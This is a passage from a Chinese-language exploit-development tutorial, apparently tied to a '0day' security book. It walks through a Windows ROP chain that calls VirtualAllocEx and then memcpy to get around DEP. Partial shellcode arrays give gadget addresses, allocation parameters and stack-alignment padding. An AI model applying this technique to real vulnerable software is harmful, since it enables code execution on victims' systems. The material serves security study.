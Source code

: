 ![Bildschirmfoto 2018-09-30 um 9.17.27 AM.png]({{ site.url }}/images/0day/0384756E56E8B8CC2BD10BA044CA0461.png)

该函数的返回处离起始部分稍微有些远：

![Bildschirmfoto 2018-10-01 um 10.22.14 AM.png]({{ site.url }}/images/0day/2FEDD6D957CC718EF45A05F4AA28EC4B.png)

明确一下各参数：目的地址和复制长度都是固定的，可以直接写死在shellcode中，对于源地址，我们可以采用`push esp jmp eax`技巧去填充这个参数。至于`jmp eax`，我们需要到后面才能确定`eax`应该放什么gadget的地址。

需要注意的是，在成功申请内存后，EBP被设置为0，而我们后面依然需要用到EBP，所以要再次修复EBP；另外，要用适当的nop去抵消VirtualAlloc返回时的`pop ebp retn 0x10`影响。

此时shellcode如下：

```c
char shellcode[]=
// 180	nop
...
// 4	modify ebp
"\x85\x8b\x1d\x5d"
// 4	call VirtualAllocEx
"\xf4\x9a\x80\x7c"
// 4	nop
"\x90\x90\x90\x90"
// 4	-1 (current process)
"\xff\xff\xff\xff"
// 4	lpAddress
"\x00\x00\x03\x00"
// 4	dwSize
"\xff\x00\x00\x00"
// 4	flAllocationType
"\x00\x10\x00\x00"
// 4	flProtect
"\x40\x00\x00\x00"
// 4	nop
"\x90\x90\x90\x90"
// 4	pop eax retn
"\x26\xb8\x6e\x7d"
// 16	nop
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
// 4	nop (eax point to)
"\x90\x90\x90\x90"
// 4	modify ebp
"\x85\x8b\x1d\x5d"
```

我们知道，在`modify ebp`返回后esp比ebp大8，而memcpy需要源地址参数位于`ebp + 0xc`的位置。我们希望借助`push esp jmp eax`去填src，就需要`esp = ebp + 0x10`。也就是说在`modify ebp`后还需要一个`pop retn`来调整esp。

另外，memcpy需要的距离最远的参数是size，为`ebp + 0x10`，那么我们希望能够在紧接着的位置`ebp + 0x14`就转入memcpy执行。结合这些信息，我们确定之前在`pop eax retn`时栈顶应该放着一个`pop pop retn`。此时shellcode如下：

```c
char shellcode[]=
// 180	nop
...
"\x90\x90\x90\x90"
// 4	modify ebp
"\x85\x8b\x1d\x5d"
// 4	call VirtualAllocEx
"\xf4\x9a\x80\x7c"
// 4	nop
"\x90\x90\x90\x90"
// 4	-1 (current process)
"\xff\xff\xff\xff"
// 4	lpAddress
"\x00\x00\x03\x00"
```